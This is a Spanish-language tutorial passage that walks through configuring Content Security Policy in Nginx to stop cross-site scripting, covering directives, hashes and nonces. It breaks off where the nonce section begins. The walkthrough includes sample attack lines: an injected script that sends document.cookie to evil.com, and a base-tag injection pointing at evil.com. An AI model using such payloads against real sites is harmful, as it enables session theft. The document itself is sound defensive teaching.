





import Callout from "@components/ui/Callout.astro";
import { Tabs, TabPanel } from "@components/ui/tabs";
import BeforeAfter from "@components/ui/BeforeAfter.astro";
import FileContent from "@components/ui/FileContent.astro";
import Table from "@components/ui/Table.astro";
import TerminalCommand from "@components/ui/TerminalCommand.astro";
import TerminalOutput from "@components/ui/TerminalOutput.astro";
import Mermaid from "@components/ui/Mermaid.astro";
import Code from "@components/ui/Code.astro";
import TLDRSummary from "@components/ui/TLDRSummary.astro";
import CheckList from "@components/ui/CheckList.astro";
import StateNotice from "@components/ui/StateNotice.astro";
import StepByStep from "@components/ui/StepByStep.astro";
import Prerequisite from "@components/ui/Prerequisite.astro";
import Timeline from "@components/ui/Timeline.astro";
import DirectiveCard from "@components/ui/DirectiveCard.astro";
import CSPBuilder from "@components/apps/CSPBuilder.astro";
import HashCalculator from "@components/apps/HashCalculator.astro";

**Cross-Site Scripting (XSS)** sigue siendo una de las vulnerabilidades web más devastadoras, apareciendo sistemáticamente en el Top 10 de OWASP y representando aproximadamente el **40 % de todos los problemas de seguridad reportados en aplicaciones web**. Según la [investigación de seguridad de Google](https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/), incluso los sitios web con CSP a menudo fallan en implementarla correctamente: **el 94,72 % de las CSP basadas en allowlist se pueden eludir**.

**Content Security Policy (CSP)** es tu defensa a nivel de navegador contra estos ataques. Piensa en ella como una estricta "lista de invitados" para tu sitio web: le indicas al navegador explícitamente qué recursos (scripts, estilos, imágenes) pueden ejecutarse. Todo lo que no esté en la lista se bloquea, incluso si un atacante consigue inyectar código malicioso.

Esta guía te lleva desde cero hasta una configuración CSP lista para producción con **calificación A+**. Aprenderás no solo el "cómo" sino el "por qué" detrás de cada directiva, comprenderás las técnicas modernas de bypass y cómo prevenirlas, y descubrirás temas avanzados como Trusted Types para la prevención de XSS basado en DOM.

<TLDRSummary title="Lo que aprenderás">
  - **Empieza con una línea**: `default-src 'self'` te ofrece protección inmediata
  - **Usa nonces, no allowlists**: el 94,72 % de las CSP basadas en allowlist se pueden eludir; los nonces son criptográficamente seguros
  - **Los sitios estáticos pueden usar nonces**: el `sub_filter` de Nginx reemplaza placeholders en cada petición
  - **Adopta `strict-dynamic`**: la confianza se propaga desde los scripts con nonce a los cargados dinámicamente
  - **Incluye hardening de seguridad**: `object-src 'none'` y `base-uri 'none'` son obligatorios para una CSP estricta
  - **Trusted Types**: la siguiente evolución para la prevención de XSS basado en DOM (CSP Level 3)
  - **Despliega de forma segura**: empieza siempre en modo report-only antes de aplicar la política
</TLDRSummary>

<Prerequisite title="Antes de empezar">
  - Un servidor web con **Nginx 1.11.0+** (para la variable `$request_id`) o **Nginx 1.25.1+** (para la directiva `http2 on;`)
  - Conocimientos básicos de cabeceras HTTP
  - Acceso a los archivos de configuración de Nginx
  - Un sitio web que proteger (estático o dinámico)
</Prerequisite>

---

## La evolución de CSP

Content Security Policy ha evolucionado significativamente desde su introducción. Comprender esta evolución te ayuda a valorar por qué existen los enfoques modernos de "CSP estricta".

<Timeline events={[
  { date: "2010", type: "default", title: "X-Content-Security-Policy", description: "Mozilla presenta la primera implementación de CSP como cabecera experimental. [Blog de Seguridad de Mozilla](https://blog.mozilla.org/security/2009/06/19/content-security-policy/)" },
  { date: "2012", type: "milestone", title: "CSP Level 1", description: "El W3C estandariza CSP con directivas fetch básicas (script-src, style-src, etc.). [Especificación W3C CSP 1.0](https://www.w3.org/TR/CSP1/)" },
  { date: "2016", type: "milestone", title: "CSP Level 2", description: "Introduce nonces, hashes y frame-ancestors. 'unsafe-inline' puede anularse con nonces. [W3C CSP Level 2](https://www.w3.org/TR/CSP2/)" },
  { date: "2016", type: "warning", title: "Investigación de Google", description: "Google publica 'CSP Is Dead, Long Live CSP' demostrando que el 94,72 % de las CSP basadas en allowlist se pueden eludir. [Artículo de investigación](https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/)" },
  { date: "2018", type: "success", title: "strict-dynamic", description: "Nueva keyword que permite a los scripts de confianza cargar dependencias sin necesidad de allowlist explícito. [MDN strict-dynamic](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#strict-dynamic)" },
  { date: "2023+", type: "milestone", title: "CSP Level 3 (Working Draft)", description: "Introduce Trusted Types, report-to y soporte mejorado para WebAssembly. [W3C CSP Level 3](https://www.w3.org/TR/CSP3/)" },
  { date: "2024+", type: "success", title: "Adopción de Trusted Types", description: "El soporte en navegadores madura; las empresas comienzan a adoptarlo para la prevención de DOM-XSS. [web.dev Trusted Types](https://web.dev/articles/trusted-types)" },
]} />

---

## Tu primera CSP en 5 minutos

Vamos a poner en marcha una CSP funcional ahora mismo. Abre tu configuración de Nginx y añade esta única cabecera:

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    server_name example.com;
    
    # Your first CSP - allow resources only from your own domain
    add_header Content-Security-Policy "default-src 'self'" always;
    
    # ... rest of your config
}
```
</FileContent>

Comprueba tu configuración y recarga Nginx:

<TerminalCommand>
```bash
sudo nginx -t && sudo systemctl reload nginx
```
</TerminalCommand>

**¡Eso es todo!** Ahora tienes una CSP funcional. Abre las DevTools de tu navegador (F12 → Consola) para ver las violaciones:

<TerminalOutput title="Consola del navegador">
Refused to load the script 'https://cdn.example.com/analytics.js' because it 
violates the following Content Security Policy directive: "default-src 'self'".
</TerminalOutput>

<Callout type="keypoint" icon="mdi:lightbulb">
  **¿Qué acaba de pasar?**
  
  `default-src 'self'` le dice al navegador: "Solo permite recursos de este mismo origen (mismo esquema, host y puerto)." Esto bloquea inmediatamente:
  - Scripts externos (CDN, analytics, tracking)
  - Scripts inline (`<script>alert('xss')</script>`)
  - Estilos inline (`style="..."`)
  - Imágenes, fuentes y frames externos
  
  Esto es intencionalmente restrictivo — a continuación lo relajaremos de forma selectiva.
</Callout>

---

## Entendiendo CSP: el concepto de lista blanca

CSP funciona definiendo **lo que se permite**, no lo que se bloquea. Piensa en ella como una lista VIP en un evento exclusivo: solo los recursos que figuran en la lista pueden entrar.

<Mermaid caption="CSP actúa como un guardián para todos los recursos del navegador" maxWidth="650px">

</Mermaid>

### Por qué CSP importa: el principio de defensa en profundidad

Sin CSP, si un atacante inyecta `<script>stealCookies()</script>` en tu página (a través de un formulario de comentarios, un parámetro de URL o la base de datos), el navegador lo ejecuta sin problemas: no tiene forma de distinguir scripts legítimos de maliciosos.

Con CSP, el navegador verifica cada recurso contra tu política **antes** de ejecutarlo. Si los scripts inline no están explícitamente permitidos, el ataque se neutraliza a nivel de navegador.

<Callout type="keypoint" icon="mdi:shield">
  **CSP es una segunda línea de defensa.**
  
  CSP no impide que ocurra la inyección — deberías seguir saneando la entrada del usuario y utilizando consultas parametrizadas. Pero cuando la validación de entrada falla (y acabará fallando), CSP atrapa el ataque a nivel de navegador, impidiendo la ejecución.
</Callout>

---

## Cómo funcionan los ataques XSS (y cómo CSP los detiene)

Para entender el valor de CSP, vamos a trazar un ataque XSS típico:

<Mermaid caption="Flujo de ataque XSS sin protección CSP" maxWidth="750px">

</Mermaid>

### Desglose paso a paso

1. **Inyección**: el atacante envía un comentario que contiene:
   ```html
   <script>fetch('https://evil.com?c='+document.cookie)</script>
   ```

2. **Almacenamiento**: el sitio web lo guarda en la base de datos sin una sanitización adecuada

3. **Entrega**: cuando otro usuario ve la página, el script malicioso se sirve como parte del HTML

4. **Ejecución**: el navegador ve una etiqueta `<script>` y la ejecuta sin hacer preguntas

5. **Exfiltración**: el script envía las cookies de sesión al servidor del atacante

### Cómo CSP rompe la cadena

**Con CSP (`script-src 'self'`)**, el paso 4 falla. El navegador comprueba: "¿Es un script inline? ¿Está `'unsafe-inline'` permitido?" Como los scripts inline están bloqueados por defecto, el ataque se neutraliza:

<TerminalOutput title="Consola del navegador con CSP">
Refused to execute inline script because it violates the following 
Content Security Policy directive: "script-src 'self'". Either the 
'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') 
is required to enable inline execution.
</TerminalOutput>

---

## Vectores de ataque que CSP previene

CSP aborda múltiples categorías de amenazas. Así es como las diferentes directivas crean defensa en profundidad:

<Table title="Amenazas comunes mitigadas por CSP">
  <thead>
    <tr>
      <th>Amenaza</th>
      <th>Vector de ataque</th>
      <th>Defensa CSP</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><strong>XSS reflejado</strong></td>
      <td>Scripts inyectados mediante parámetros de URL</td>
      <td><code>script-src</code> sin <code>'unsafe-inline'</code></td>
    </tr>
    <tr>
      <td><strong>XSS almacenado</strong></td>
      <td>Scripts inyectados mediante contenido de BD</td>
      <td><code>script-src</code> con nonces/hashes</td>
    </tr>
    <tr>
      <td><strong>XSS basado en DOM</strong></td>
      <td>Abuso de <code>eval()</code>, <code>innerHTML</code></td>
      <td><code>script-src</code> sin <code>'unsafe-eval'</code> + Trusted Types</td>
    </tr>
    <tr>
      <td><strong>Exfiltración de datos</strong></td>
      <td>XHR/fetch a servidores del atacante</td>
      <td><code>connect-src 'self'</code></td>
    </tr>
    <tr>
      <td><strong>Clickjacking</strong></td>
      <td>Sitio enmarcado por una página maliciosa</td>
      <td><code>frame-ancestors 'none'</code></td>
    </tr>
    <tr>
      <td><strong>Contenido mixto</strong></td>
      <td>Recursos HTTP en páginas HTTPS</td>
      <td><code>upgrade-insecure-requests</code></td>
    </tr>
    <tr>
      <td><strong>Ataques mediante plugins</strong></td>
      <td>Exploits de Flash, Java, PDF</td>
      <td><code>object-src 'none'</code></td>
    </tr>
    <tr>
      <td><strong>Secuestro de formularios</strong></td>
      <td>Formularios inyectados para robar credenciales</td>
      <td><code>form-action 'self'</code></td>
    </tr>
    <tr>
      <td><strong>Inyección de etiqueta base</strong></td>
      <td>Redirección de URLs relativas al atacante</td>
      <td><code>base-uri 'none'</code></td>
    </tr>
  </tbody>
</Table>

---

## Directivas CSP: aprende haciendo

En lugar de memorizar tablas, vamos a aprender cada directiva añadiéndola a nuestra política de forma progresiva.

### 1. `default-src`: el fallback

Esta es la directiva comodín. Si no especificas una directiva para un tipo de recurso, se aplica `default-src`.

<DirectiveCard
  name="default-src"
  syntax="default-src <source-list>"
  description="Fallback para todas las directivas fetch no especificadas. Establécela de forma restrictiva y añade directivas específicas según sea necesario."
  defaultValue="* (permitir todo)"
  since="CSP Level 1"
  mdnUrl="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src"
>
  **Buena práctica:** establece `default-src 'none'` y permite explícitamente lo que necesites. Este es el enfoque "denegar por defecto" que recomiendan los profesionales de seguridad.
</DirectiveCard>

<Code lang="nginx" title="Directiva default-src">
```nginx
# Block everything by default - explicitly allow what you need
Content-Security-Policy: default-src 'none';
```
</Code>

### 2. `script-src`: la directiva más crítica

Controla qué scripts pueden ejecutarse en tu página. Si te equivocas aquí, toda tu CSP es prácticamente inútil.

<DirectiveCard
  name="script-src"
  syntax="script-src <source-list>"
  description="Especifica las fuentes válidas para JavaScript. Es la directiva más importante para la protección contra XSS."
  defaultValue="Recurre a default-src"
  since="CSP Level 1"
  mdnUrl="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src"
/>

<Table title="Valores de origen de script-src">
  <thead>
    <tr>
      <th>Valor</th>
      <th>Significado</th>
      <th>Seguridad</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>'self'</code></td>
      <td>Solo mismo origen (esquema + host + puerto)</td>
      <td data-status="success">Seguro</td>
    </tr>
    <tr>
      <td><code>'none'</code></td>
      <td>Bloquea todos los scripts completamente</td>
      <td data-status="success">Máximo</td>
    </tr>
    <tr>
      <td><code>'nonce-&#123;random&#125;'</code></td>
      <td>Permite scripts con atributo nonce coincidente</td>
      <td data-status="success">Recomendado</td>
    </tr>
    <tr>
      <td><code>'sha256-&#123;hash&#125;'</code></td>
      <td>Permite scripts con hash de contenido coincidente</td>
      <td data-status="success">Fuerte</td>
    </tr>
    <tr>
      <td><code>'strict-dynamic'</code></td>
      <td>La confianza se propaga a scripts cargados dinámicamente</td>
      <td data-status="success">Fuerte</td>
    </tr>
    <tr>
      <td><code>https://cdn.example.com</code></td>
      <td>Permite scripts de un dominio específico</td>
      <td data-status="warning">Débil (eludible)</td>
    </tr>
    <tr>
      <td><code>'unsafe-inline'</code></td>
      <td>Permite todos los scripts inline</td>
      <td data-status="error">Peligroso</td>
    </tr>
    <tr>
      <td><code>'unsafe-eval'</code></td>
      <td>Permite <code>eval()</code>, <code>Function()</code>, etc.</td>
      <td data-status="error">Peligroso</td>
    </tr>
  </tbody>
</Table>

<Callout type="warning">
  **Nunca uses `'unsafe-inline'` para scripts en producción.** Permite a los atacantes ejecutar cualquier script inline inyectado, exactamente el ataque que CSP pretende evitar. Si ves esto en tu política, tu CSP ofrece esencialmente cero protección contra XSS.
</Callout>

<Callout type="info" icon="mdi:information">
  **Directivas granulares de CSP Level 3:** los navegadores modernos reportan violaciones usando directivas más específicas como `script-src-elem` (para elementos `<script>`) y `script-src-attr` (para event handlers inline como `onclick`). Estas recurren a `script-src` como fallback, por lo que no necesitas configurarlas por separado a menos que quieras reglas diferentes para cada una.
</Callout>

### 3. `style-src`: control de CSS

<DirectiveCard
  name="style-src"
  syntax="style-src <source-list>"
  description="Especifica las fuentes válidas para hojas de estilo. Menos crítica que script-src pero igualmente importante para una protección integral."
  defaultValue="Recurre a default-src"
  since="CSP Level 1"
  mdnUrl="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/style-src"
/>

<Code lang="nginx" title="style-src con unsafe-inline">
```nginx
# Allow styles from same origin + inline styles
style-src 'self' 'unsafe-inline';
```
</Code>

<Callout type="info">
  **Por qué `'unsafe-inline'` para estilos suele ser aceptable:**
  
  A diferencia de los scripts, los estilos inline tienen una superficie de ataque mucho menor. Muchas bibliotecas CSS-in-JS y frameworks necesitan estilos inline para la hidratación. Aunque *puedes* usar nonces/hashes para estilos también, el beneficio de seguridad es menor comparado con la complejidad de implementación.
</Callout>

### 4. Directivas de recursos

<Tabs>
  <TabPanel label="img-src">
    ```nginx
    # Allow images from same origin + data: URIs (for base64)
    img-src 'self' data:;
    ```
    
    `data:` suele necesitarse para imágenes codificadas en base64, iconos SVG o imágenes placeholder.
  </TabPanel>
  <TabPanel label="font-src">
    ```nginx
    # Allow fonts from same origin only
    font-src 'self';
    
    # Or allow Google Fonts
    font-src 'self' https://fonts.gstatic.com;
    ```
  </TabPanel>
  <TabPanel label="connect-src">
    ```nginx
    # Restrict XHR/Fetch/WebSocket destinations
    # Critical for preventing data exfiltration
    connect-src 'self' https://api.example.com;
    ```
    
    Esto controla a dónde puede enviar datos JavaScript. Es crítico para evitar que se envíen datos robados a servidores del atacante.
  </TabPanel>
  <TabPanel label="media-src">
    ```nginx
    # Audio and video sources
    media-src 'self';
    ```
  </TabPanel>
  <TabPanel label="worker-src">
    ```nginx
    # Web Workers and Service Workers
    worker-src 'self';
    
    # For sites using blob: URLs for workers
    worker-src 'self' blob:;
    ```
    
    Controla las fuentes para scripts de `Worker`, `SharedWorker` y `ServiceWorker`. Si no se especifica, recurre a `script-src` como fallback.
  </TabPanel>
</Tabs>

### 5. Directivas de hardening de seguridad

A menudo se pasan por alto pero son **obligatorias para una CSP estricta**:

#### `object-src 'none'` — Bloquear plugins

Los plugins como Flash y Java han sido históricamente vectores de vulnerabilidades importantes. Aunque Flash está obsoleto, bloquear `object-src` previene cualquier ataque basado en plugins:

<Code lang="nginx" title="Directiva object-src">
```nginx
# Block all plugins (Flash, Java, Silverlight, PDF viewers)
object-src 'none';
```
</Code>

<Callout type="keypoint">
  **Obligatorio para CSP estricta.** Sin `object-src 'none'`, los atacantes podrían utilizar vulnerabilidades de plugins para eludir tus restricciones de scripts.
</Callout>

#### `base-uri 'none'` — Prevenir la inyección de etiqueta base

La etiqueta `<base>` define una URL base para todas las URLs relativas de un documento. Si un atacante inyecta una etiqueta `<base>`, puede redirigir todas tus URLs relativas a su servidor:

<BeforeAfter beforeLabel="Ataque sin base-uri" afterLabel="Con base-uri 'none'">
  <div slot="before">
    ```html
    <!-- Attacker injects this -->
    <base href="https://evil.com/">
    
    <!-- Your existing code now loads from attacker! -->
    <script src="/js/app.js"></script>
    <!-- Loads https://evil.com/js/app.js -->
    ```
  </div>
  <div slot="after">
    ```http
    Content-Security-Policy: base-uri 'none'
    
    <!-- Injection attempt blocked! -->
    Refused to set the document's base URI to 
    'https://evil.com/' because it violates CSP.
    ```
  </div>
</BeforeAfter>

#### `frame-ancestors 'none'` — Protección contra clickjacking

Impide que tu sitio se incruste en iframes en otros sitios:

<Code lang="nginx" title="Directiva frame-ancestors">
```nginx
# Don't allow embedding anywhere (replaces X-Frame-Options)
frame-ancestors 'none';

# Or allow embedding only on your own domain
frame-ancestors 'self';
```
</Code>

<Callout type="tip">
  `frame-ancestors` es más flexible que la antigua cabecera `X-Frame-Options` y debería ser la opción preferida. Sin embargo, para máxima compatibilidad con navegadores, puedes configurar ambas.
</Callout>

#### `form-action 'self'` — Controlar el envío de formularios

Impide que los atacantes inyecten formularios que envían datos a sus servidores:

<Code lang="nginx" title="Directiva form-action">
```nginx
# Forms can only submit to your own domain
form-action 'self';
```
</Code>

---

## Construyendo tu CSP capa a capa

En lugar de escribir una CSP perfecta de golpe (lo que lleva a la frustración), vamos a construirla de forma progresiva. Cada capa añade protección, y puedes detenerte en cualquier nivel según tus necesidades.

<Table title="Niveles de seguridad CSP">
  <thead>
    <tr>
      <th>Nivel</th>
      <th>Adición a la política</th>
      <th>Protección añadida</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><strong>0</strong></td>
      <td>Sin CSP</td>
      <td data-status="error">Ninguna — completamente expuesto a XSS</td>
    </tr>
    <tr>
      <td><strong>1</strong></td>
      <td><code>default-src 'none'</code></td>
      <td>Bloquea todo por defecto</td>
    </tr>
    <tr>
      <td><strong>2</strong></td>
      <td><code>+ script-src 'self'</code></td>
      <td>Solo se ejecutan tus scripts</td>
    </tr>
    <tr>
      <td><strong>3</strong></td>
      <td><code>+ style-src, img-src, font-src</code></td>
      <td>Controla los recursos visuales</td>
    </tr>
    <tr>
      <td><strong>4</strong></td>
      <td><code>+ connect-src 'self'; object-src 'none'</code></td>
      <td>Limita la exfiltración de datos, bloquea plugins</td>
    </tr>
    <tr>
      <td><strong>5</strong></td>
      <td><code>+ base-uri 'none'; frame-ancestors 'none'</code></td>
      <td>Previene inyección y clickjacking</td>
    </tr>
    <tr>
      <td><strong>6</strong></td>
      <td><code>+ form-action 'self'; upgrade-insecure-requests</code></td>
      <td data-status="success">Protección base completa</td>
    </tr>
  </tbody>
</Table>

### Nivel 6: una CSP base sólida

Así es como se ve el Nivel 6 en la práctica:

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
add_header Content-Security-Policy "
    default-src 'none';
    script-src 'self';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data:;
    font-src 'self';
    connect-src 'self';
    object-src 'none';
    base-uri 'none';
    frame-ancestors 'none';
    form-action 'self';
    upgrade-insecure-requests;
" always;
```
</FileContent>

<Callout type="success">
  **Punto de control:** esta CSP protege contra la mayoría de ataques XSS, limita la exfiltración de datos, previene el clickjacking y cierra los vectores de ataque basados en plugins.
  
  **Sin embargo**, tiene una limitación significativa: los scripts inline están bloqueados. Si tu sitio usa JavaScript inline (detección de tema, analytics, hidratación), no funcionará. La siguiente sección resuelve esto.
</Callout>

---

## El reto de los scripts inline

La mayoría de sitios web tienen scripts inline como este:

<Code lang="html" title="Script inline típico">
```html
<script>
  // Theme detection - runs before page renders
  const theme = localStorage.getItem('theme') || 'system';
  document.documentElement.classList.add(theme);
</script>
```
</Code>

Con `script-src 'self'`, esto se bloquea. Tienes **tres soluciones**:

<Table title="Comparación de soluciones para scripts inline">
  <thead>
    <tr>
      <th>Solución</th>
      <th>Ideal para</th>
      <th>Ventajas</th>
      <th>Inconvenientes</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><strong>Archivos externos</strong></td>
      <td>Casos sencillos</td>
      <td data-status="success">Sin nonces/hashes; cacheable</td>
      <td data-status="warning">Petición HTTP extra; no puede ejecutarse antes del render</td>
    </tr>
    <tr>
      <td><strong>Hashes</strong></td>
      <td>Scripts estáticos</td>
      <td data-status="success">Funciona con contenido estático; sin cambios en el servidor</td>
      <td data-status="warning">Hay que regenerarlo con cada cambio en el script</td>
    </tr>
    <tr>
      <td><strong>Nonces</strong> ⭐</td>
      <td>Todos los casos</td>
      <td data-status="success">Máxima flexibilidad; recomendado por Google</td>
      <td data-status="warning">Requiere nonce del servidor (truco Nginx para sitios estáticos)</td>
    </tr>
  </tbody>
</Table>

### Solución 1: mover a archivos externos

El enfoque más limpio — mover el código inline a archivos `.js`:

<BeforeAfter beforeLabel="Inline (bloqueado por CSP)" afterLabel="Externo (permitido)">
  <div slot="before">
    ```html
    <head>
      <script>
        initTheme();
      </script>
    </head>
    ```
  </div>
  <div slot="after">
    ```html
    <head>
      <script src="/js/theme.js"></script>
    </head>
    ```
  </div>
</BeforeAfter>

### Solución 2: usar hashes

Genera un hash SHA-256 del contenido de tu script y añádelo a tu CSP. Pruébalo tú mismo:

<HashCalculator
  title="Genera el hash de tu script"
  defaultCode="const theme = localStorage.getItem('theme') || 'system';
document.documentElement.classList.add(theme);"
/>

<Callout type="tip">
  **Cómo obtener el hash desde el navegador:** cuando CSP bloquea un script, la consola del navegador muestra el hash necesario:
  
  > Either the 'unsafe-inline' keyword, a hash ('sha256-RFWPLDbv2BY...'), or a nonce is required.
  
  Copia ese hash directamente en tu CSP.
</Callout>

**Limitación:** debes regenerar el hash cada vez que cambie el contenido del script — incluso añadir un espacio lo invalidará.

### Solución 3: usar nonces

